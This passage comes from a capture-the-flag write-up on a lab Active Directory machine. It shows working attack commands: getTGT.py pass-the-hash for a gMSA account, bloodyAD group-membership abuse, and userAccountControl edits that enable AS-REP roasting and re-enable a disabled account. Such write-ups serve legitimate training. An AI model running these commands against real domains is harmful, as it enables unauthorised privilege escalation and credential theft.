 <p align="center">
  <img src="/machines/vintage/servicemanagers_acl.png" alt="SERVICEMANAGERS ACL" />
</p>

Interestingly, the `SERVICEMANAGERS` group has a `GenericAll` permissions on the `SVC_ARK`, `SVC_LDAP`, and `SVC_SQL` users. However, there is no clear path forward from here, so let's focus on what we can do first.

Get yourself a TGT for `GMSA01$` computer account.

```bash
getTGT.py -dc-ip 10.10.11.45 vintage.htb/gmsa01\$ -hashes ":<NTHash>"
export KRB5CCNAME=$(realpath gmsa01\$.ccache)
```

## GenericWrite

Add ourselves to the `SERVICEMANAGERS` group.

```bash
bloodyAD -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb add groupMember SERVICEMANAGERS gmsa01\$
```

Get a new TGT.

```bash
getTGT.py -dc-ip 10.10.11.45 vintage.htb/gmsa01\$ -hashes ":<NTHash>"
```

## GenericAll

Because of the `GenericAll` permissions, we could change their passwords but the account itself doesn't have any permissions that we can exploit further.
We could make these user vulnerable to [ASREProasting](https://www.thehacker.recipes/ad/movement/kerberos/asreproast) or launch [Targeted Kerberoasting](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting#targeted-kerberoasting) attacks.
I will just make it vulnerable to [ASREProasting](https://www.thehacker.recipes/ad/movement/kerberos/asreproast) attacks by setting the `DONT_REQ_PREAUTH` flag on these users.

<p align="center">
  <img src="/machines/vintage/svc_sql_disabled.png" alt="SVC_SQL disabled" />
</p>

The `SVC_SQL` user is disabled, so we need to enabled it so that we can get the `AS-REP` response.

When I was solving this machine, I used `bloodyAD` to edit the `userAccountControl` attribute, but for some reason, it didn't work while I was writing this post and I had to use `ldapmodify` instead.
You can try the following `bloodyAD` if you want to try it.

```bash
bloodyAD -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb add uac svc_ark -f DONT_REQ_PREAUTH
bloodyAD -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb add uac svc_ldap -f DONT_REQ_PREAUTH
bloodyAD -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb add uac svc_sql -f DONT_REQ_PREAUTH

# Enable svc_sql user
bloodyAD  -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb remove uac svc_sql -f ACCOUNTDISABLE
```
